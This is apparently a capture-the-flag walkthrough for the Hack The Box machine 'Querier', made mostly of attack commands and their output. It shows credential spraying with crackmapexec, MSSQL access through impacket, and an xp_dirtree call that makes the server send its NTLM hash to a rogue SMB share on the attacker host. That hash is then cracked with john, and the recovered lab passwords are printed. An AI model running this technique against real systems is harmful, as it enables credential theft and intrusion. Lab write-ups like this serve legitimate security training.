 ❯ crackmapexec smb 10.10.10.125 -u 'reporting' -p 'PcwTWTHRwryjc$c6' -d WORKGROUP
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP\reporting:PcwTWTHRwryjc$c6

#we check if we can connect with evilrm by checking if the user can winrm but it cannot so no evilrm for us.


crackmapexec winrm 10.10.10.125 -u 'reporting' -p 'PcwTWTHRwryjc$c6' -d WORKGROUP
HTTP        10.10.10.125    5985   10.10.10.125     [*] http://10.10.10.125:5985/wsman
WINRM       10.10.10.125    5985   10.10.10.125     [-] WORKGROUP\reporting:PcwTWTHRwryjc$c6

#in the NMAP scan we saw that port 1433 is open which is a SQL server. We use sqsh to access it or mssqlclient.py from impacket.

/home/rickybana/.local/bin/mssqlclient.py WORKGROUP/reporting@10.10.10.125 -windows-auth

#Once we are in we could try to abuse xp_cmdshell to execute commands.

xp_cmdshell "whoami"

#however permission is denied. Then we could try to see if we can change advanced options. But we do not have permission for that.

sp_configure "show advanced options", 1

#Inside the SQL we could try to check for other folder that are shared at a network level with xp_dirtree command. So we are going to create a fake SMB folder share and capture the credentials the SQL server sents to then crack the hash. First step we create the server: 

/home/rickybana/.local/bin/smbserver.py smbFolder $(pwd) -smb2support 

#we use smbserver to create a folder called smbFolder in the current working directory and we add smb2 support to maximize compatibility. After that in the server we request the folder so we can capture the credentials.

xp_dirtree "\\10.10.14.3\smbFolder\"

# we place the hash inside a file and crack it with john so we get the user and password.  mssql-svc:corporate568

john -w:/usr/share/wordlists/rockyou.txt hash

#we verify if its possible to psexec or winrm with those credentials but we are not able. 

crackmapexec smb 10.10.10.125 -u 'mssql-svc' -p 'corporate568' -d WORKGROUP
#valid but not pwned so we cannot psexec.

crackmapexec winrm 10.10.10.125 -u 'mssql-svc' -p 'corporate568' -d WORKGROUP
#not valid.

# We reconect to the SQL server with the new credentials and check if we can run commands.

xp_cmdshell "whoami"
[-] ERROR(QUERIER): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
